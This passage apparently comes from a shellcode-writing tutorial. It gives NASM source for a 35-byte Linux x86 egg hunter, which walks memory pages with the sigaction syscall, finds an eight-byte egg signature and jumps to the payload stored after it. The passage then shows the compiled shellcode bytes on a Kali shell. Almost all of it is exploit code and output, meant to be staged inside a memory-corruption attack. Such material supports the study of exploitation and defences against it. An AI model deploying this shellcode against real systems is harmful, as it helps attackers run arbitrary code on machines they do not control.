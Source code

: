 ```nasm
; Shellcode length : 35 bytes

global _start
section .text

_start:

    xor ebx, ebx        ; set ebx to an invalid signal number
    cld                 ; Ensure that we search in memory in the reverse stack order
			; from lower to higher memory address

next_page:
    or cx, 0xfff        ; Set ecx pointing to the last byte of the current page

next_address:
    inc ecx             ; Next offset, and next page if cx is set to 0x0fff			
    jz next_page        ; Check ZF => if ecx set to 0x0, go to the next page
    
    push byte 0x43      ; sigaction syscall number
    pop eax
    int 0x80         

    cmp al, 0xf2        ; check if EFAULT (0x00 - 0x0e (-14) = 0xf2)
    jz next_page        ; if EFAULT go to next page

    mov eax, 0x50905090 ; set eax to the egg signature value
    mov edi, ecx        ; set edi to point to the address we want to check

    scasd               ; test for the first four bytes of the egg
                        ; scasd compare eax with bytes at the address set in edi,
                        ; then increment the edi register (DF is set to 0)
    jnz next_address    ; if it's not the egg signature go to the next address

    scasd               ; test for the four last bytes of the egg
    jnz next_address    ; if it's not go to the next address

    jmp edi             ; Jump to the true payload,
                        ; The address following the egg
```
## The hunt

First we will compile the egg hunter and get the shellcode :

```plaintext
root@kali:~# ./compile.sh egghunter
[x] Assembling...
[x] Linking...
[x] Done !

Shellcode : 
"\\x31\\xdb\\xfc\\x66\\x81\\xc9\\xff\\x0f\\x41\\x74\\xf8\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2
\\x74\\xef\\xb8\\x90\\x50\\x90\\x50\\x89\\xcf\\xaf\\x75\\xea\\xaf\\x75\\xe7\\xff\\xe7"
```
